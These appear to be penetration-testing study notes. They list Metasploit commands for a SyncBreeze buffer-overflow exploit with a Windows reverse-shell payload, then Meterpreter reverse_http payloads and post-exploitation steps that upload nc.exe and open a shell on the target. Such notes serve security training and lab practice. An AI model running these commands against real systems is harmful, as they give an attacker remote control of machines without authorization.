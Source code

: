 ##### Exploit Modules

```
search syncbreeze

info exploit/windows/http/syncbreeze_bof

use exploit/windows/http/syncbreeze_bof

show payloads

set payload windows/shell_reverse_tcp

show options

set LHOST 192.168.175.10

set RHOST 192.168.119.175

check

exploit

```

##### Metasploit Payloads

###### Staged vs Non-Staged Payloads

```
windows/shell_reverse_tcp - Connect back to attacker and spawn a command shell 
windows/shell/reverse_tcp - Connect back to attacker, Spawn cmd shell (staged)

```

###### Meterpreter Payloads

```

search meterpreter type:payload

set payload windows/meterpreter/reverse_http

set LHOST 192.168.119.175

show options

exploit


```

###### Experimenting with Meterpreter

```
meterpreter> help

sysinfo

getuid

upload /usr/share/windows-resources/binaries/nc.exe c:\\Users\\Offsec

download c:\\Windows\\system32\\calc.exe /tmp/calc.exe

shell

```